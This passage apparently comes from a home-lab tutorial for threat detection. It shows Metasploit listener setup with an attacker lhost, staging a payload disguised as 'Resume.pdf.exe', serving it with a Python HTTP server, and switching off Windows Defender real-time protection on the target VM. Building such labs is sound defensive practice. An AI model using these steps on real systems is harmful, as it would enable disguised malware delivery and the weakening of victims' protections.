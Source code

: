 Then, we can set our host to the IP of the attacker machine. In our case, this is our Kali machine IP
```sh
set lhost 192.168.100.11
```
and we can use `options` to check our lhost again

![kali-metaploit-3](assets/img/threat_detection_and_monitoring_home_lab/kali-metaploit-3.png){:.post-image-80 style="border-radius: 8px;"}

### 2.3 Deploying the Payload
Now, we'll transfer the generated payload `Resume.pdf.exe` to the Windows VM and execute it. This will simulate an attacker gaining access to the target machine. To do that, we set up a HPPT server on our Kali machine so Windows machine can download the payload.

We open a new tab and make sure we are in the same directory as our payload. Then, we run the command:
```sh
python3 -m http.server 9999 
```
On our Windows machine, we go to **Windows Security**, **Virus & Threat protection**, **Manage Setting**, then we turn off **Real-time protection**. 
